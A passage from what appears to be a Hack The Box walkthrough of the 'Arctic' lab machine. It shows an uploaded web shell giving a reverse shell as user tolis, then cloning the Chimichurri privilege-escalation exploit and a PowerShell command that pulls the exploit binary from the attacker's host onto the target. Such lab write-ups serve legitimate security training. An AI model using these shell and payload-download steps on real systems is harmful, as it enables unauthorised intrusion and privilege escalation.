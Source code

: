 Now go to website on box and open the shell we've uploaded:

![arctic-shell](/assets/images/2020-08-02-22-09-21.png)

Back to terminal and we should get a connection to our shell, and we see we are on as user tolis:

```text
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.11] 60740
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

We can now get the user flag as above. Now we need to escalate to root, let's use Chimichurri:

```text
root@kali:~/htb/machines/arctic# git clone https://github.com/Re4son/Chimichurri.git
Cloning into 'Chimichurri'...
remote: Enumerating objects: 66, done.
remote: Counting objects: 100% (66/66), done.
remote: Compressing objects: 100% (40/40), done.
remote: Total 66 (delta 23), reused 66 (delta 23), pack-reused 0
Unpacking objects: 100% (66/66), done.
root@kali:~/htb/machines/arctic/Chimichurri# cp Chimichurri.exe ..
```

Switch back to the box, and download the file to it:

```text
C:\Users\tolis>powershell.exe "(New-Object System.Net.WebClient).downloadFile('http://10.10.14.31/Chimichurri.exe','chimichurri.exe')"
C:\Users\tolis>dir
 Volume in drive C has no label.
 Volume Serial Number is F88F-4EA5
 Directory of C:\Users\tolis
02/08/2019  08:49    <DIR>          .
02/08/2019  08:49    <DIR>          ..
02/08/2019  08:52            97.280 chimichurri.exe
22/03/2017  10:00    <DIR>          Contacts
22/03/2017  10:00    <DIR>          Desktop
22/03/2017  10:00    <DIR>          Documents
22/03/2017  10:00    <DIR>          Downloads
22/03/2017  10:00    <DIR>          Favorites
22/03/2017  10:00    <DIR>          Links
22/03/2017  10:00    <DIR>          Music
22/03/2017  10:00    <DIR>          Pictures
22/03/2017  10:00    <DIR>          Saved Games
22/03/2017  10:00    <DIR>          Searches
22/03/2017  10:00    <DIR>          Videos
               1 File(s)         97.280 bytes
              13 Dir(s)  32.815.558.656 bytes free
```
